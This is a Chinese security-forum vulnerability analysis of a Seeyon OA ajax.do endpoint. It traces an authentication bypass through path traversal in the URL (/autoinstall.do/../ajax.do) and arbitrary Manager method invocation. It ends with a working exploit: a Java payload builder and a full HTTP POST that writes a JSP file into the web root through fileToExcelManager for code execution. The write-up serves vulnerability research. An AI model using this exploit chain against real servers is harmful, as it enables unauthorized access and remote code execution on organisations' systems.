 

# 某 OA ajax.do 处漏洞分析 - 先知社区

某 OA ajax.do 处漏洞分析



# ajax.do 处漏洞分析

本次分析版本 v7.1sp1  
/ajax.do 可以调用其他类的方法，但 ajax.do 默认是不允许未授权访问的  
[![](assets/1701606576-c083d8d493a69cfd53fbd5c01d47be13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091052-510ddf10-85af-1.png)  
登录后访问是这样子的  
[![](assets/1701606576-2d6d44951ba46dbc1df1c7352c9517be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091104-58422516-85af-1.png)

## 权限绕过

观察 web.xml 发现.do 结尾的路由会经过 SecurityFilter  
[![](assets/1701606576-2000c32f6838f5e39aeef55f6ccf3f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091126-6561e24a-85af-1.png)  
CTPSecurityFilter 类中做了校验，首先调用 isSpringController 进行校验  
[![](assets/1701606576-1b08eb07f4389200c124549950e805cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091136-6bb93152-85af-1.png)  
isSpringController 只要是.do 结尾的或者包含.do;jsessionid 都会返回 true  
[![](assets/1701606576-7fd9607d70b4ced9e7cc99c6b5d573b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091149-73347266-85af-1.png)  
然后调用 SpringControllerAuthenticator#authenticate  
[![](assets/1701606576-a94b49cf00f343dbe159c177c411617f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091157-782280ba-85af-1.png)  
authenticate 方法中判断是否登录，未登录调用 this.isNeedlessCheckLogin  
[![](assets/1701606576-c3efa91f324b6499721b9fbf5172deef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091207-7e3f3f92-85af-1.png)  
isNeedlessCheckLogin 中，如果路由是/ajax.do，会将 accessUrl 设置为 managerName 参数的值，这里没有传入，就是 null  
[![](assets/1701606576-5a4b838cba7aa790b33d926f9f21642c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091215-8296c196-85af-1.png)  
然后获取 needlessUrlMap  
[![](assets/1701606576-b8b1c6b9ac15943fb059c3737b236d6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091225-88f1ff06-85af-1.png)  
遍历判断 accessUrl 是否在这个 map 中  
[![](assets/1701606576-4bd00fb13bb3c185c07b8de24d99e33c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091309-a2d74d04-85af-1.png)  
accessUrl 为 null 的时候直接抛出异常了，传个 managerName 进行测试  
[![](assets/1701606576-ce0616238a1e066058a42af22ba79cd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091318-a864948e-85af-1.png)  
isNeedlessCheckLogin 返回 false 后赋值给 isAnnotationNeedlessLogin，会调用到 this.checkOnlineState  
[![](assets/1701606576-bdca8db502cac180457e2e74ad753a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091327-ade03468-85af-1.png)  
因为没有登录，所以 checkOnlineState 也会返回 false  
[![](assets/1701606576-92b4035bb327933fb9252595b8599f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091335-b2a028b4-85af-1.png)  
最后造成SpringControllerAuthenticator#authenticate返回false赋值给accept  
[![](assets/1701606576-40d2f667b8d95c8178a9085270e2d889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091343-b729539c-85af-1.png)  
当 accept 为 false 时，将不会进行 filter 链的调用  
[![](assets/1701606576-074dc8bbe328122cae05a52d49fa02bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091350-bb3121b8-85af-1.png)  
思考：在 isNeedlessCheckLogin 方法中，因为 accessUrl 不在 needlessUrlMap 中，导致返回 false，那么使 accessUrl 为 needlessUrlMap 中存在的 key，是否就会返回 true，例如：/main.do  
[![](assets/1701606576-82db502f3c546f048ad7747a65b82011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091407-c5c3cd24-85af-1.png)  
那么 ajax.do 不在 needlessUrlMap 中，如何能够访问到 ajax.do 呢，可以利用 spring 的一个小 trick，在低版本 spring 中 alwaysUseFullPath 为默认值 false，本次分析版本中刚好 alwaysUseFullPath 也为 false  
[![](assets/1701606576-34d094e40f8bf30e97f948ccaa80cb18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091414-c99bf25a-85af-1.png)  
当 alwaysUseFullPath 为 false 时，会调用 getPathWithinServletMapping 对 url 进行处理  
[![](assets/1701606576-b74ec542ec97f2ec481095980d5d347f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091420-cd09a978-85af-1.png)  
而 getPathWithinServletMapping 会对 uri 进行标准化处理，例如解码然后处理跨目录等，这就导致了可能的身份验证绕过  
成功绕过  
[![](assets/1701606576-d4176b06cccd69e486be5c2967f2562d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091431-d3beaab6-85af-1.png)

## ajax.do 调用流程

接下来分析 ajax.do 是如何调用类的  
/ajax.do 对应的是 com.seeyon.ctp.common.service.AjaxController 类  
[![](assets/1701606576-e35841d73b9d6313332bb2b5bf83ef4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091451-dfb67d44-85af-1.png)  
调用其他类的逻辑主要在 ajaxAction 方法中  
[![](assets/1701606576-f4b8aef2083fa211b64ff33d906c5f13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091456-e2dc9df0-85af-1.png)  
返回的字符是 outStr，outStr 调用了 invokeService 方法进行处理，接着如果传入了 ClientRequestPath 参数且不为黑名单的，会调用 ZipUtil.compressResponse 进行解压缩  
[![](assets/1701606576-6dc76b984f901ec7514694122f54ec19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091502-e68849ea-85af-1.png)  
跟进 invokeService 方法，首先分别获取 serviceName、methodName、strArgs、compressType，然后根据传入的 compressType，调用 ZipUtil.uncompressRequest 对 strArgs 进行处理  
[![](assets/1701606576-5fa3e3b08a59ae51a8b67a6a3e05d8a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091507-e9645884-85af-1.png)  
跟进 uncompressRequest，可以看到，如果 compressType 是 gzip 的话会进行 gzip 解压缩，如果不是的话，就会返回原本的数据  
[![](assets/1701606576-12de9275470d59d7792eb04e6570dba3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091514-eda6a226-85af-1.png)  
回到 invokeService 方法，根据传入的 serviceName 调用 getService 方法，然后返回一个对象  
[![](assets/1701606576-ccd15258f447e14cc8ff60af9bdd31b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091520-f119c8c0-85af-1.png)  
跟进 getService 方法，调用了 AppContext.getBean 方法来获取对象  
[![](assets/1701606576-e25c5809b63443a71e7103b1e5f1a9cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091525-f3c9c05c-85af-1.png)  
跟进 getBean 方法，从 beanCacheMap 中获取缓存好的对象  
[![](assets/1701606576-de7305189df2a647da766a48e5444581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091530-f6ffea94-85af-1.png)  
beanCacheMap 中存放了 Manager 的名字和对应的对象  
[![](assets/1701606576-7cccaaefd76a51394fe79b3ea3aaa7dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091535-fa0c8c42-85af-1.png)  
回到 getService 方法，获取到对象后，还会判断其是否继承 DataSource、Session、SessionFactory 三个类，并且不为空，满足条件后 return  
[![](assets/1701606576-83d328b093ac92a3f2e005eaaf9a1b75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091542-fe23b198-85af-1.png)  
返回 invokeService 方法，获取到对象后，会调用 invokeMethod 方法，传入获取到的对象、方法名、参数、类名  
[![](assets/1701606576-40d1983d20214be59b47979c93ab6a38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091547-01412f90-85b0-1.png)  
跟进 invokeMethod 方法，先将传入的 strArgs 参数解析成了 Object 对象，接着判断这个对象是否为 List 子类的实例，是的话会将 Object 强制转换成 List 对象，否则就会创建一个 ArrayList 对象。然后将传入的 Object 添加到 ArrayList 中  
[![](assets/1701606576-293dce136180c6309c5b5f11d8d8eac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091553-04923306-85b0-1.png)  
经接着会将 serviceName + "_" + methodName + "_" + argsNum 作为键值在 this.candidateMethodCache 中获取已经缓存的方法，返回一个 list，如果获取到则会将传入的 strArgs 和 list 作为参数调用 this.findMethodAndArgs((List)l, (List)list)  
[![](assets/1701606576-630585b6e98248539f8c3d98f815bd62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091558-079e2488-85b0-1.png)  
没获取到的话，会调用 this.judgeCandidate  
[![](assets/1701606576-6a6e0fecaf87970506fa3a9f6b0d47c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091603-0aad6a1c-85b0-1.png)  
judgeCandidate 方法中会反射获取 services 的所有方法，有符合的方法名和符合的所需参数个数的话，就会将这个方法加入到 list 中，返回 list  
[![](assets/1701606576-e28736d4b6531f57912f81a90d83da97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091608-0de7a13e-85b0-1.png)  
将返回的 list 作为参数，调用 findMethodAndArgs 方法  
[![](assets/1701606576-7576ba234b42fa7f31dd112a9046db06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091617-12c95d3c-85b0-1.png)  
findMethodAndArgs 方法中，返回具体的 Method 对象和参数  
[![](assets/1701606576-b26be1ecd610503ebef2097c21cbdd55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091626-1867a6e0-85b0-1.png)  
将键值加入缓存  
[![](assets/1701606576-1c7554b4e8f239b7d38cc46ddbb949ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091632-1bd67680-85b0-1.png)  
反射调用对应的方法  
[![](assets/1701606576-3d6cce95e2613283194fbc17cedc4e87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091638-1f87ca68-85b0-1.png)  
总结：beanCacheMap 中存放了 Manager 的名字和对应的对象，可以通过传参调用对象的任意方法

## 修改权限绕过

当利用权限绕过的方式尝试调用对应的 Manager 时，会发现绕不过去了

```plain
/main.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-05649b2eb41223e115f40dbcb5ddc46b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091730-3eafb694-85b0-1.png)  
进行调试分析，发现是因为传入了 method 参数后，method 为 ajaxAction  
[![](assets/1701606576-1cc117bd80a70bc860dea5c57d3e9dc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091739-4402e40e-85b0-1.png)  
这里返回了 false  
[![](assets/1701606576-b22c37c5906b181b18e7ac13bc3e3780.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091745-474b5d76-85b0-1.png)  
key 为/main.do 时返回的方法中没有 ajaxAction，导致没有匹配成功返回 false，/main.do/../ajax.do 因为没传 method 参数，method 为 index，而 main.do 时返回的方法中含有 index，所以可以绕过  
[![](assets/1701606576-85098cf3845982719f9ef79ead86ecf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091751-4b0b5060-85b0-1.png)  
继续观察发现 methods.contains("_") || methods.contains(method)，只要 2 个条件成立一个就行了，methods.contains("_") 就是表示 needlessUrlMap.get(key) 返回的 methods 中包含\*就行了  
而 autoinstall.do 刚好满足这个条件  
[![](assets/1701606576-128ddcf8bd92a99a811a03d5307d7924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091802-51a03b84-85b0-1.png)  
所以可以利用 autoinstall.do 来进行权限绕过，利用 ajax.do 调用相应的 Manager

```plain
/autoinstall.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1701606576-fd84672040dceb8f76a15e07c92265d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091820-5c85661e-85b0-1.png)

## 漏洞利用

有很多 Manager 都存在漏洞，这里简单提一个 fileToExcelManager，其 saveExcelInBase 方法存在文件上传问题，从而造成 rce  
接受 3 个参数  
[![](assets/1701606576-75a46c3ad94cb65aa18a06b91b0220b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091839-67e20e86-85b0-1.png)  
保存文件，并没有对文件名进行校验  
[![](assets/1701606576-88b6b71702a44dc476124571666b0b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091848-6cdb6b4e-85b0-1.png)  
需要注意的是这里写入的文件，会在前后加入 2 个双引号，直接插入 shell 是不行的，解析不了，我们可以利用换行符和双引号来闭合前后的双引号，从而使中间的 shell 内容能够解析  
构造 payload

```plain
import com.seeyon.ctp.common.excel.DataRecord;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;

public class fileToExcelManagerPayload {
    private static final Log LOGGER = CtpLogFactory.getLog(fileToExcelManagerPayload.class);
    public static void main(String[] args) {

        DataRecord d = new DataRecord();
        String[] c = {"\"\r\n"+"<% out.println(\"ttttttttt\"); %>"+"\"\r\n"};
        d.setColumnName(c);
        String dd = JSONUtil.toJSONString(d);
        final ArrayList<Object> list = new ArrayList<>();
        list.add("../webapps/ROOT/x.jsp");
        list.add("\"\"");
        list.add(d);
        final String list1 = JSONUtil.toJSONString(list);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```

[![](assets/1701606576-2a957be7681324e103953a52f81cee4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091916-7d76753e-85b0-1.png)

```plain
POST /seeyon/autoinstall.do/../ajax.do?method=ajaxAction&managerName=fileToExcelManager HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 6357

managerMethod=saveExcelInBase&managerName=fileToExcelManager&method=ajaxAction&requestCompress=gzip&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00%5D%C2%8D%C3%81%0A%C3%820%10D%7F%C2%A5%2C%14%14B%C3%A2%C2%B9%C2%8A%C3%A7%1E%C3%84%C2%82%14%3C4%3D%C2%A46%C3%98H%C2%9A%C2%84dC%05%C3%B1%C3%9FM%09zp%C3%B64%C2%8F%C3%A5M%07%C2%94%C2%B2E%0E%C3%82%C2%B9%C3%80.M%C3%93%C2%B2%27%7D%04%07%04x%3A+%2F%C2%B8Y%1Dgs%16%C2%B3%C2%84%C2%AA%5B%C2%A9%C3%A7%C3%A6P%166%22u%5E%19%C3%94f%C3%83%01%C2%BF%C3%A1%C2%B0%C3%9D%17%C3%A51%C2%BFAO%60%14%28j%29%C3%86%C2%93%0A%C2%98%04%C2%89d%C3%A1U%C3%A1%04%C2%95%C2%89Z%13%08%C2%93%C2%94%C2%98%172%40%C2%85%C3%BAWB%1C%C3%9A%C2%BF%5EKu%C2%9F%C2%92nG%C3%80%C3%9Be%C3%95%C2%BE%C3%BB%0F%C3%8BJZ%C2%B7%C3%8A%00%00%00
```

[![](assets/1701606576-876d92b016cd1daa47ad75acc7a59605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091942-8d7f8d3a-85b0-1.png)  
[![](assets/1701606576-d7c3c11f952e3fc8b7b24af3e0852f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091947-9006927e-85b0-1.png)
